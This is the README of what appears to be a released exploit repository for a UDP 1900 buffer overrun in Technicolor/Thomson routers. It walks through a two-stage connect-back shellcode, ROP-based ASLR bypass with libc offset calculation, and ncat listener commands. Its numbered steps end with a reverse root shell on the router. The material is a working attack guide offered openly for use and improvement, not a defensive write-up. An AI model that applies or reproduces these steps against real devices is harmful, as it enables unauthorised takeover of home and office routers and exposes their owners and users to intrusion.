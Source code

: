## Welcome to rev1900 R&D


Pre-requesites: 

for shcode generation : 

        pip install pwntools

        apt-get install crossbuild-essential-mips


Intro : 

first things first , since this dump started somewhat with a bunch of mysteriously files , let me explain what this is : 

this will give a root shell ( connect back  mode ) on, I think,  all ... technicolor / thomson  routers that are running 2.6  / 2.4 kernels , it goes a long way...  from aprox 2009 till now 2019 , so 10 years scope , on the run.... I have used it  on tg787 tg784 tg789 , more recently tg 789vacv2  and others  ... I am releasing this because this was getting dust on the hard drives, and maybe someone will be interested in enhacing the funcionality and give some life to it, it is pretty raw now, has hardocded ips ports offsets  and waht not... . 

it was quite a challenge back them to develop this ... the crossed compiled tools without reference toolchain,  the  live endless debugging  sessions , the crashes  step ins. memory access ,   it was slow  process but a frutuosos one for me,  with persistence and a lot os patience  it came out pretty reliable. 
A one man show! and a lonely ride indeed , good times. 

may it serve you on your  quest and shed some light on your own path.

Tut :  

this is a multi stage shellcode  exploit that takes advantage from a udp 1900 service buffer overrun.

due to buffer size constraints, exploitation cannot be done in one shot , so it had to be split in a 2 stage payload : 


    stage one -> generated by genex.py  ( connect back port 444 ip 10.0.0.1 and download stage two to memory )
    stage two -> generated by genex2.py  ( connect back port 4444 ip 10.0.1 and redirect shell fds to listner , you all have a shell withou prompt when this reaches here)
    ( @toDo : rename these files for something more understandable  and add command line arguments ( connect back ip , port , etc ... ) )

    these have hardcoded ip addresses and ports ( 10.0.0.1 and ports 444 , 4444 ) 
    cat listener.sh 
    
        ncat -vv -l 444 --keep-open -c 'cat exit' & 
        ncat -v -l 444 --keep-open

this is a already working exploit , unfortunally it has that hardcoded stuff , some more thinking has to be made because , generating null free shellcode for connect back ip 10.0.0.1 takes different size than for example 192.168.1.1 , and size is a constraint here.

one final remark , this one uses some rop gadgets to bypass aslr , and libc location changes between models and firmware versions.  if a close look is taken on ex extg789vacv2.py , you will see the offset deltacomment after the registers overwrites. are the relative offsets regarding /lib/libc.so.0 location ... so how to get that reference base address from libc , i did not check if this information was dumped to telnet console , it might , but with serial console if you launch the reference crash test udp.py it will print on the serial console of the device the crash dump report with libc address [ insert example here ] , next you will have to adapt exploiy.py... or better look at extg789vacv2.py as it has the offset math comment already , ir can be automated with console args parameters , if time comes by  .... 

so ... what has to be done : 

    1>  run udp.py , and grab the offset of libc from serial console . 
    2>  adapt ext789vacv2.py  ( ra , s0 , s4 , s2  registers )  ( libc: 0x2ae50000  , ra = hex(0x2ae50000+0x60330) , and so on .... )
    3>  (listner.sh) ncat -vv -l 444 --keep-open -c 'cat exit' &  ncat -v -l 444 --keep-open 
    4>  adjust UDP_IP = "10.0.0.138" on ext789vacv2.py and make sure you are in 10.0.0.1 ( all of them listen on 10.0.0.138 , so this should not be a problem )   and sock.setsockopt(socket.SOL_SOCKET, 25, 'eth1') <---- eth1 interface ( choose yours , not relevant to shellcode payloads ... ) 
    5> run python ext789vacv2.py
    6> you should see some activity on the first ncat ( this is good ) 
    7> you should see some activity on the second ncat , at this point you have a reverse shell on this console, just type ls and the look for youtself
    8> the rest is up to you . 


 be wise , be responsible. 







 Cheers,

 keep on rolling :) 







